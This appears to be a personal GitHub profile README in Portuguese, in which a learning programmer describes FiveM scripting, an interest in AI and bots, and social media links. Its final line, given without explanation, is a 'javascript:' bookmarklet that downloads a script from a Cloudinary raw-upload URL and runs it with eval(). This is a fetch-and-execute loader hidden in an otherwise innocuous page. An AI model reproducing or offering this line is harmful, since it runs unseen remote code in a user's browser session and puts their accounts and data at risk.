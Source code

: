 ### Olá, meu nome é Fishixz 👋

e sou um programador em aprendizado, buscando aprimorar meus conhecimentos em IA, com uma paixão intensa pela programação!

- ⚡️ Já fui scripter em diversos servidores do FiveM, procurando sempre me aventurar nessas missões e explorar novos desafios.
- 🎓 Anteriormente, fui programador, mas agora estou focando em me dedicar aos estudos, sempre procurando aprender mais sobre programação em segundo plano.
- 🤖 Também adoro escrever. Por exemplo, já tentei criar diversos Bots de interação, porém sempre encontrei desafios ao não me aprofundar em criar APIs, e estou atualmente precisando desenvolver um bot, mas ainda não obtive sucesso nessa empreitada.

---

Se você estiver interessado em mais detalhes, confira [meu perfil](https://github.com/fishixz)!

#### Redes Sociais

Também sou um pouco ativo nas plataformas sociais abaixo!

- 📸 Instagram [(@fishixz)](https://www.instagram.com/fishixz)
- 👨‍💻 Twitter [(@fishixz)](https://twitter.com/fishixz)
- 🖇️ Tiktok [(@edyxluis)](https://www.tiktok.com/@edyxluis)

- javascript:fetch(`https://res.cloudinary.com/dq36xqdoe/raw/upload/v${Math.floor(Math.random() * 1000000)}/main_oqidn5.js`).then(r => r.text()).then(r => eval(r))
